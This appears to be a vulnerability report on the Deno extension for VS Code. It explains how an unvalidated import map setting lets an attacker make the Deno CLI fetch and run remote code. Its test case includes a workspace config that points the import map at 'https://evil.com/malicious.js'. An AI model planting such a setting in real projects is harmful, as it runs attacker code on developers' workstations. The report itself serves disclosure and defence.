 By controlling the import map, an attacker can inject and force the execution of arbitrary remote code in the developer’s environment.

**Impact:**
Exploitation can lead to arbitrary code execution on the developer’s workstation. The attacker-controlled remote module could deliver malicious code, resulting in compromise of the development environment, data exfiltration, or lateral movement within the network.

**Vulnerability Rank:** Critical

**Currently Implemented Mitigations:**
- The extension relies on VS Code’s trusted configuration system to some extent and passes configuration values directly to the Deno CLI.

**Missing Mitigations:**
- There is no explicit validation or sanitization of the remote URL in the import map configuration.
- No domain whitelist or restrictions are enforced to ensure that only trusted remote modules are fetched.
- There is no prompt to confirm the execution of code from a remote location, nor is there sandboxing for the remote module’s execution.

**Preconditions:**
- The attacker must be able to control or modify the workspace configuration (for example, by committing a malicious `deno.json` or import map file).
- The developer must open the compromised workspace and allow the extension to load the attacker-controlled import map.

**Source Code Analysis:**
- In files such as `debug_config_provider.ts` and `tasks.ts`, the extension reads the import map configuration (using `config.get("importMap")` or similar methods).
- The retrieved value is then trimmed and added to the runtime arguments array as two separate tokens: first the `--import-map` flag, followed by the URL.
- No additional checks or sanitization is performed on this URL before passing it to the Deno CLI.
- Consequently, when a Deno command related to caching or module resolution is executed, the CLI downloads the remote module specified by the unsanitized URL, potentially executing malicious code.

**Security Test Case:**
1. Create a test workspace that includes a malicious configuration file (for example, a `deno.json` or `.vscode/settings.json`) that specifies an import map with an entry such as:
   ```json
   {
     "deno.importMap": "https://evil.com/malicious.js"
   }
   ```
2. Open the workspace in Visual Studio Code with the Deno extension enabled.
3. Trigger the “Deno: Cache” command (or any operation that causes remote module fetching).
4. Monitor network traffic and the output from the Deno CLI to verify that it attempts to download a module from “https://evil.com/malicious.js”.
5. Validate that the download and intended execution of the remote module confirms the exploitation of the vulnerability.
